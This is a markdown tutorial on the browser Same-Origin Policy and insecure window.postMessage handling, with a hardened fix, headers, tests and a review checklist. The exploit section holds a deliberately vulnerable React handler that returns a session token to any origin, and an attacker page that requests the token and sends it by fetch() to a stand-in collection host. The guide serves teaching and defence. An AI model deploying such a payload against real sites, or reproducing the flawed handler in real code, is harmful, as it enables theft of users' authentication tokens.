

# 🛡️ Same-Origin Policy (SOP) & Browser Isolation

> The cornerstone security boundary of the World Wide Web: How browsers isolate distrusted origins and defend client-side runtime memory.

---

## 1. 🎯 Overview & Intuitive Mental Model

### The Production Hook
Without the **Same-Origin Policy (SOP)**, the modern interactive web could not exist. Imagine browsing your online banking dashboard in Tab A while reading an online webcomic in Tab B. If the browser sandbox did not enforce strict origin boundaries, JavaScript executing from the webcomic site could effortlessly invoke `document.getElementById('balance').innerText` on your bank's tab, steal your active session cookies, and initiate fraudulent transactions.

SOP dictates that scripts executing in one document context can only inspect and interact with DOM objects, cookies, and network resources belonging to the **exact same origin**.

### 🧠 The Fun Analogy: The "Passport Border Control"
Think of every origin as a sovereign country issuing passports. The passport inspector at the border checks three immutable biometric markers:
1. **Scheme** (`http://` vs `https://`)
2. **Host** (`bank.com` vs `attacker.com` vs `api.bank.com`)
3. **Port** (`:443` vs `:8080`)

If any of these three markers differs by even a single character or port number, you are treated as a foreign national. You are strictly forbidden from entering another country's municipal buildings (DOM), reading their citizens' private diaries (`localStorage`), or accessing their banking vaults (`IndexedDB`).

| Origin 1 | Origin 2 | Same Origin? | Reason |
|---|---|---|---|
| `https://bank.com/account` | `https://bank.com/profile` | ✅ **YES** | Exact same scheme (`https`), host (`bank.com`), and port (`443`). |
| `https://bank.com` | `http://bank.com` | ❌ **NO** | Different scheme (`https` vs `http`). |
| `https://bank.com` | `https://api.bank.com` | ❌ **NO** | Different subdomains are legally distinct hosts. |
| `https://bank.com:443` | `https://bank.com:8443` | ❌ **NO** | Different port numbers. |

### Severity & Impact
- **OWASP Category:** [A01:2021 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- **Common Weakness Enumeration (CWE):** [CWE-346: Origin Validation Error](https://cwe.mitre.org/data/definitions/346.html)
- **Blast Radius:** Complete loss of confidentiality and integrity of client-side application state, cross-tenant data leakage, and session hijacking.

---

## 2. 🎨 Interactive Visual Architecture



> 💡 **Visual Inspection Tip:** In Chrome DevTools, open the **Console** tab. Run `window.origin` to inspect your current execution context. If debugging `postMessage` flows, enable the **Global Event Listeners** pane in the **Sources** tab, expand `Window`, and inspect active `message` handlers.

---

## 3. 💥 Real-World Exploit Walkthrough

### What SOP Restricts vs. What It Permits
Developers frequently misunderstand the SOP boundary:
- **Restricted (Cross-origin reads blocked):** Reading DOM properties across frames, reading `fetch()` responses without CORS headers, inspecting `localStorage` or `IndexedDB`.
- **Permitted by Default (Cross-origin embedding & writing):** Embedding images (``), scripts (`<script>`), stylesheets (`<link>`), and sending cross-origin form submissions (`<form method="POST">`)!

Because SOP allows cross-window communication only via the HTML5 `window.postMessage()` API, developers frequently introduce catastrophic origin validation flaws.

#### ❌ Vulnerable PostMessage Handler (React / TypeScript)
```tsx
// VulnerableProfileViewer.tsx - DANGEROUS MISSING ORIGIN VALIDATION
import React, { useEffect, useState } from 'react';

export const VulnerableProfileViewer: React.FC = () => {
  const [userProfile, setUserProfile] = useState<any>(null);

  useEffect(() => {
    const handleMessage = (event: MessageEvent) => {
      // ⚠️ FLAW 1: Never checking event.origin! Any website can trigger this.
      // ⚠️ FLAW 2: Blindly trusting event.data payload without structural validation
      if (event.data?.type === 'UPDATE_PROFILE') {
        setUserProfile(event.data.payload);
      }

      if (event.data?.type === 'REQUEST_AUTH_TOKEN') {
        // ⚠️ FLAW 3: Leaking sensitive token to whoever asked with wildcard target!
        const token = sessionStorage.getItem('auth_token');
        event.source?.postMessage({ token }, '*' as any); // Leaks token to any origin!
      }
    };

    window.addEventListener('message', handleMessage);
    return () => window.removeEventListener('message', handleMessage);
  }, []);

  return (
    <div>
      <h2>User Profile: {userProfile?.name}</h2>
      <p>Role: {userProfile?.role}</p>
    </div>
  );
};
```

#### 💥 The Attacker's Exploit Payload
The attacker deploys `https://attacker-hub.com/steal.html`:
```html
<!DOCTYPE html>
<html>
<head><title>Claim Free Coupons</title></head>
<body>
  <h1>Free Rewards Center</h1>
  <script>
    // Open target bank portal in child window
    const targetWindow = window.open('https://legitimate-app.com/profile');

    // Wait for the window to load, then exploit missing event.origin validation
    window.addEventListener('message', (event) => {
      if (event.data?.token) {
        // Exfiltrate stolen auth token!
        fetch('https://attacker-hub.com/collect', {
          method: 'POST',
          body: JSON.stringify({ leakedToken: event.data.token })
        });
        alert('Stolen Token: ' + event.data.token);
      }
    });

    setTimeout(() => {
      // Send message to legitimate app requesting its token
      targetWindow.postMessage({ type: 'REQUEST_AUTH_TOKEN' }, '*');
    }, 2000);
  </script>
</body>
</html>
```

### Browser Behavior Breakdown
1. The victim opens the attacker's page while signed in to `legitimate-app.com`.
2. The attacker uses `window.open` to launch the victim's profile page.
3. Because the React listener omitted checking `event.origin`, it treats the incoming request from `https://attacker-hub.com` as trusted.
4. The React component transmits the secret session token back using `event.source.postMessage({ token }, '*')`.
5. The wildcard target `'*'` allows `attacker-hub.com` to capture the token in its own `message` listener, completely bypassing SOP.

---

## 4. 🛡️ Resolution & Defense-in-Depth

### Hardened Production Component (React / TypeScript)
```tsx
// HardenedProfileViewer.tsx - PRODUCTION-READY POSTMESSAGE CONTROLS
import React, { useEffect, useState, useMemo } from 'react';

interface UserProfile {
  name: string;
  role: 'admin' | 'user' | 'editor';
}

const TRUSTED_ORIGINS = new Set<string>([
  'https://legitimate-partner.com',
  'https://auth.legitimate-app.com',
]);

export const HardenedProfileViewer: React.FC = () => {
  const [userProfile, setUserProfile] = useState<UserProfile | null>(null);

  useEffect(() => {
    const handleSecureMessage = (event: MessageEvent) => {
      // 🛡️ Defense 1: Strict Origin Allowlist Verification
      if (!TRUSTED_ORIGINS.has(event.origin)) {
        console.warn(`[Security Alert] Rejected postMessage from untrusted origin: ${event.origin}`);
        return;
      }

      // 🛡️ Defense 2: Ensure the sender window is an expected frame source
      if (!event.source || event.source === window) {
        return;
      }

      // 🛡️ Defense 3: Strict Schema & Type Validation
      const data = event.data;
      if (typeof data !== 'object' || data === null) {
        return;
      }

      if (data.type === 'UPDATE_PROFILE' && data.payload) {
        const { name, role } = data.payload;
        if (typeof name === 'string' && ['admin', 'user', 'editor'].includes(role)) {
          setUserProfile({ name, role });
        }
      }

      // 🛡️ Defense 4: NEVER send secrets or tokens via postMessage with wildcard '*'
      if (data.type === 'REQUEST_SYNC') {
        const payload = { status: 'SYNCHRONIZED', timestamp: Date.now() };
        // SPECIFY EXACT TARGET ORIGIN - NEVER USE '*'
        (event.source as Window).postMessage(payload, event.origin);
      }
    };

    window.addEventListener('message', handleSecureMessage);
    return () => window.removeEventListener('message', handleSecureMessage);
  }, []);

  return (
    <section aria-labelledby="profile-title">
      <h2 id="profile-title">Profile Context</h2>
      {userProfile ? (
        <p>Active User: {userProfile.name} ({userProfile.role})</p>
      ) : (
        <p>Awaiting verified identity sync...</p>
      )}
    </section>
  );
};
```

### Origin Isolation Headers Blueprint
Modern browsers support site and origin isolation at the OS process level:
```http
# Deprecate legacy document.domain relaxation and enforce process isolation
Origin-Agent-Cluster: ?1

# Isolate cross-origin browsing contexts (blocks Spectre/Meltdown memory leakage)
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
Cross-Origin-Resource-Policy: same-origin
```

---

## 5. 🧪 Hands-On Verification & Lab

### DevTools Interactive Verification
1. Open any website in Chrome and press `F12`.
2. Run this command in the console:
   ```javascript
   const iframe = document.createElement('iframe');
   iframe.src = 'https://example.com';
   document.body.appendChild(iframe);
   ```
3. Attempt to inspect the iframe's DOM:
   ```javascript
   console.log(iframe.contentWindow.document.body.innerHTML);
   ```
4. Verify that the browser throws an immediate security exception:
   `Uncaught DOMException: Blocked a frame with origin "..." from accessing a cross-origin frame.`

### Automated Unit Test (Vitest)
```typescript
// sop-postmessage.test.ts
import { describe, it, expect, vi } from 'vitest';

describe('Same-Origin Message Security Validator', () => {
  const TRUSTED_ORIGINS = new Set(['https://auth.company.com']);

  const validateAndExtractMessage = (origin: string, data: any) => {
    if (!TRUSTED_ORIGINS.has(origin)) {
      throw new Error('Blocked by origin policy');
    }
    if (typeof data !== 'object' || !data.type) {
      throw new Error('Invalid payload structure');
    }
    return data;
  };

  it('rejects postMessage from an adversarial origin', () => {
    expect(() => {
      validateAndExtractMessage('https://evil-hacker.com', { type: 'LEAK_TOKEN' });
    }).toThrow('Blocked by origin policy');
  });

  it('rejects postMessage from a subdomain if not explicitly allowlisted', () => {
    expect(() => {
      validateAndExtractMessage('https://phishing.company.com', { type: 'PING' });
    }).toThrow('Blocked by origin policy');
  });

  it('accepts messages strictly from trusted origins', () => {
    const result = validateAndExtractMessage('https://auth.company.com', { type: 'SYNC', payload: {} });
    expect(result.type).toBe('SYNC');
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **Exact Origin Check:** Does every `window.addEventListener('message', ...)` immediately verify `event.origin === 'https://trusted.com'`?
- [ ] **No Substring Regex Traps:** Are origin checks free of loose regex traps (e.g., `event.origin.includes('company.com')` matches `company.com.evil.com`)?
- [ ] **Explicit Target Origin:** Does every outgoing `targetWindow.postMessage(data, targetOrigin)` specify the explicit URL rather than `'*'`?
- [ ] **Payload Sanitization:** Is `event.data` validated against a strict schema (e.g., Zod or TypeScript type guards) before updating component state?
- [ ] **No `document.domain` Manipulation:** Is `document.domain` modification avoided (deprecated in modern browsers due to security flaws)?

---

## 7. 🎥 Curated Video Walkthroughs & Primary References

### 📺 High-Impact Video Explanations
- 🎥 [Same Origin Policy - Why can't I access that? (Computerphile - Dr. Mike Pound)](https://www.youtube.com/watch?v=0xP_uJ4_y5g) — Brilliant visual explanation of scheme, host, and port tuple checks.
- 🎥 [Browser Security: Same Origin Policy & Sandboxing (Google Chrome Developers)](https://www.youtube.com/watch?v=mG4N_f-819g) — Chrome team's breakdown of process isolation and renderer security.
- 🎥 [Exploiting window.postMessage Flaws (LiveOverflow)](https://www.youtube.com/watch?v=9oB80vG9jP0) — Walkthrough of attacking missing `event.origin` validation in real web apps.

### 📖 Primary Documentation & Specifications
- 📜 [MDN Web Docs: Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) — Authoritative MDN specification and origin inheritance guide.
- 📜 [HTML Living Standard: Origin](https://html.spec.whatwg.org/multipage/origin.html#origin) — The official WHATWG origin definition.
- 📜 [OWASP Cheat Sheet: HTML5 Security](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html) — Secure `postMessage` implementation standards.

### 🧪 Interactive Hands-On Training Labs
- 🎯 [PortSwigger Lab: DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages) — Exploit an insecure `window.postMessage` handler.
